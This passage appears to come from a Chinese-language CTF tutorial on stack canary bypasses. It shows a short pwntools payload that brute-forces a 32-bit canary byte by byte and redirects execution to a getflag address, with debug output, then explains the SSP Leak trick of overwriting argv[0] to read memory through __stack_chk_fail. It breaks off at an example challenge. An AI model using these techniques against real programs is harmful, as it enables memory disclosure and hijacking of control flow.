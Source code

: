 ```
payload = 100*'a'+canary+8*'a'+4*'a'+p32(getflag_addr)
p.sendline(payload)
p.interactive()
```

如果canary不正确，就会输出检测到堆溢出的信息，如果canary正确，会输出成功信息，并继续下一字节的爆破，由于32位的canary有4字节，故需要爆破3次

```
[DEBUG] Sent 0x68 bytes:
    00000000  61 61 61 61  61 61 61 61  61 61 61 61  61 61 61 61  │aaaa│aaaa│aaaa│aaaa│
    *
    00000060  61 61 61 61  00 61 41 d1 //爆破的最后一步                            │aaaa│·aA·│
    00000068
```

### SSP Leak

#### 原理

Stack Smashing Protect Leak，这种方法能够获取内存中的值，但是无法拿到shell

原理参考链接：https://www.anquanke.com/post/id/177832#h2-3

当canary被改变时，函数终止前会调用__stack_chk_fail函数，定义如下：

```
eglibc-2.19/debug/stack_chk_fail.c

void __attribute__ ((noreturn)) __stack_chk_fail (void)
{
  __fortify_fail ("stack smashing detected");
}

void __attribute__ ((noreturn)) internal_function __fortify_fail (const char *msg)
{
  /* The loop is added only to keep gcc happy.  */
  while (1)
    __libc_message (2, "*** %s ***: %s terminatedn",
                    msg, __libc_argv[0] ?: "<unknown>");
```

故存在一种思路：当栈溢出的长度够长，足以覆盖argv[0]时，就可以造成任意读

注意：下面例题测试时我用的ubuntu20.04，glibc版本为2.31，此版本的__fortify_fail不会输出argv[0]，故在测试本地的时候需要更换glibc版本。

#### 条件

以上条件，不能爆破，不能泄露，glibc版本会输出argv[0]

两个需要寻找的东西：argv[0]与栈溢出的栈顶指针的偏移量(也可以不同，只需要在payload中填满泄露的地址)；需要泄露数据的地址

#### 例题

题目地址：https://www.jarvisoj.com/challenges

检查保护：
